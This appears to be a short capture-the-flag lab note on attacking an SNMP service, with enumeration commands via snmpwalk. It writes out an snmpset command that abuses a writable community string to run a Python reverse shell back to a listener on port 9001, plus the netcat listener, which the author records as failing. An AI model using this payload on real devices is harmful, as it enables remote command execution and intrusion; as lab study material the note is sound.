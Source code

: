 
attempting reverse shell payload from hacktricks
https://book.hacktricks.xyz/network-services-pentesting/pentesting-snmp/snmp-rce
~~~
snmpset -m +NET-SNMP-EXTEND-MIB -v 2c -c SuP3RPrivCom90 10.129.241.165 'nsExtendStatus."command10"' = createAndGo 'nsExtendCommand."command10"' = /usr/bin/python3.6 'nsExtendArgs."command10"' = '-c "import sys,socket,os,pty;s=socket.socket();s.connect((\"10.10.14.47\",9001));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn(\"/bin/sh\")"'
~~~

setup nc listener
~~~
nc -lvnp 9001
~~~

revshell payload failed

Enum SNMP:

snmpwalk

~~~
snmpwalk -v 2c -c public 10.10.10.251
~~~

![](antique-snmp-enum-1.png)

~~~
snmpwalk -v 2c -c public 10.129.241.165 .1.3.6.1.4.1.11.2.3.9.1.1.13.0
~~~

![](antique-snmp-enum-2.png)

